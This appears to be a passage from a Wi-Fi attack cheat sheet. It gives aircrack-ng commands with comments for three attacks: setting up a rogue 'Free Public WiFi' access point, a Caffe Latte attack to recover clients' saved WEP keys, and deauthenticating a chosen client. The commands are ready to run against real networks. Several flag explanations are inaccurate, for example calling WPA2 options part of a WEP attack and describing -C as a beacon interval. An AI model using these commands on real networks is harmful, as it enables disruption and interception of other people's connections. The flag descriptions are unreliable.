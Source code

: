 ```bash
airmon-ng start wlan0  
                 # Enables monitor mode on wlan0, creating a monitor interface (mon0 or wlan0mon) for sniffing and injecting packets
airbase-ng -P -C 30 -e "Free Public WiFi" -c [channel] mon0  
                 # Creates a rogue AP named "Free Public WiFi" on the specified channel using the monitor interface
                 # -P enables beacon response (makes it show up to clients)
                 # -C 30 sets a 30ms beacon interval to aggressively broadcast the AP signal
                 # -e specifies the ESSID (network name)
ifconfig at0 up  
                 # Brings up the virtual TAP interface (at0) created by airbase-ng to handle client traffic
dhclient at0  
                 # Attempts to obtain an IP address for the rogue AP interface (at0) from a DHCP server (optional and rarely useful here)

```
## Caffe Latte Attack (Client WEP Key Retrieval)
The Caffe Latte attack targets clients with saved WEP keys by tricking them into leaking enough encrypted packets to allow for offline key recovery. This attack is particularly useful when the access point is not physically reachable or is hardened against direct attacks, but mobile clients are within range. It works by simulating an AP and inducing the client to generate ARP traffic, which the attacker collects and analyzes to recover the WEP key. Its effectiveness lies in the ability to extract encryption credentials from the client alone, making it a stealthy alternative to traditional AP-focused attacks.
```bash
airmon-ng start wlan0  
                 # Enables monitor mode on wlan0 to allow packet injection and sniffing; creates mon0 (or wlan0mon)

airbase-ng -e "test" -c [channel] -W 1 -Z 4 mon0  
                 # Creates a fake AP with SSID "test" on the specified channel using mon0
                 # -W 1 enables WPA2 beaconing (makes the fake AP appear WPA2-secured)
                 # -Z 4 enables WPA2 support with minimal handshake checking (allows capturing attempts from real clients)

airodump-ng -c [channel] --bssid [spoofed MAC] -w lattekill mon0  
                 # Monitors and captures packets on the same channel from the specific spoofed BSSID (the fake AP)
                 # Saves the captured handshake attempts and client activity to a file named "lattekill-01.cap"
```
## De-Authenticating the Client
De-Authentication attacks disrupt client connections by spoofing de-authentication frames from the access point, forcing a client to disconnect. This technique is commonly used when attempting to capture WPA/WPA2 handshakes for offline cracking or to force clients to reconnect to a rogue access point. It is effective because most wireless clients automatically attempt to reconnect after disconnection, providing attackers with repeated opportunities to intercept handshakes, test client behavior, or mount further impersonation attacks. The attack is simple and devastating due to the unauthenticated nature of management frames in many Wi-Fi protocols.
```bash
airmon-ng start wlan0  
                 # Puts wlan0 into monitor mode to enable raw packet capture and injection; creates interface mon0 (or wlan0mon)
airodump-ng mon0  
                 # Scans nearby wireless networks and clients; helps identify AP MAC, client MAC, and channel
aireplay-ng --deauth 5 -a [AP MAC] -c [client MAC] mon0  
                 # Sends 5 deauthentication frames from the AP (-a) to the specific client (-c)
                 # Forces the client to disconnect from the access point (useful for handshake capture or disruption)
```